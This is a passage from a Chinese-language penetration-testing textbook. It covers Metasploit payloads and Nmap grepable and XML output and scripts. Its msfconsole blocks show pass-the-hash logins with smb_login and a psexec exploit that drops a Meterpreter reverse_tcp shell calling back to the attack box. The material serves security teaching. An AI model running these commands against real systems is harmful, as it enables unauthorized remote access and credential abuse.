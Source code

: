 `payload`命令选择要在主机上投放并执行的有效负载。`reverse_tcp`有效负载拨回攻击盒以建立连接。如果是`bind`有效负载，攻击盒在执行后将直接连接到监听端口。`RHOST`和`LPORT`表示我们要连接的目标主机和攻击盒上要监听返回通信的端口。`exploit -j`运行漏洞利用，然后将结果放到后台，这样可以让您专注于其他事情，并在需要时使用`session -i <session number>`返回会话。请记住，您不需要破解凭据来执行`smb_login`或`psexec`；相反，您可以使用 PtH。在这种情况下，`smb_login`命令的文本将如下代码所示：

### 注意

在执行过程完成时，放在盒子上的所有有效负载都将被删除。如果执行过程中断，有效负载可能会留在系统中。更安全的环境使用监视进程的工具，如果这些工具未正确配置以删除检测到的进程的生成器，则可能会出现这种情况。

```py
msfconsole
use auxiliary/scanner/smb/smb_login
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set RHOSTS file:/root/Desktop/smb_hosts_list
run

```

以下配置将用于`psexec`命令：

```py
msfconsole
use exploit/windows/smb/psexec
set SMBUser administrator
set SMBPass 01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537
set SMBDomain Workgroup
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.195.112
set LPORT 443
exploit -j

```

现在您已经了解了`nmap grepable`输出的目的和好处，让我们来看看 XML 输出的好处。在继续之前，有一点需要注意，这将帮助您了解 XML 的好处。看一下`nmap grepable`输出的行。您可以看到用于区分数据字段的特殊字符非常少；这意味着您可以轻松提取只有小部分信息。要获取更大的数量，您必须使用`sed`和`awk`插入分隔符。这是一个痛苦的过程，但幸运的是，您手头上有解决方案——XML 输出。

### 理解 Nmap XML 输出

XML 构建数据树，使用子父组件来标记数据集。这允许在遍历列出父子关系的树之后，使用特定标签抓取数据进行轻松和直接的解析。最重要的是，由于这一点，XML 输出可以被其他工具导入，比如 Metasploit。您可以使用`-oX`选项轻松地只输出 XML。这些好处的更多细节将在以后的章节中进行介绍，特别是在第九章中使用 Python 解析 XML 时，*使用 Python 自动化报告和任务*，以帮助自动生成报告数据。

## Nmap 脚本引擎

Nmap 有许多脚本，为评估者提供独特的功能。它们可以帮助识别易受攻击的服务、利用系统或与复杂的系统组件交互。这些脚本是用一种叫做 Lua 的语言编写的，这里不会涉及。这些脚本可以在 Kali 的`/usr/share/nmap/scripts`中找到。可以使用`--script`选项调用这些脚本，然后以逗号分隔的列表形式调用。在针对目标执行脚本之前，请确保您知道每个脚本的作用，因为它可能对目标系统产生意外后果。

### 注意

有关`nmap`脚本的更多详细信息，请访问[`nmap.org/book/man-nse.html`](http://nmap.org/book/man-nse.html)。可以在[`nmap.org/nsedoc/`](http://nmap.org/nsedoc/)找到有关`nmap`脚本的具体细节，以及它们的目的和类别关联。
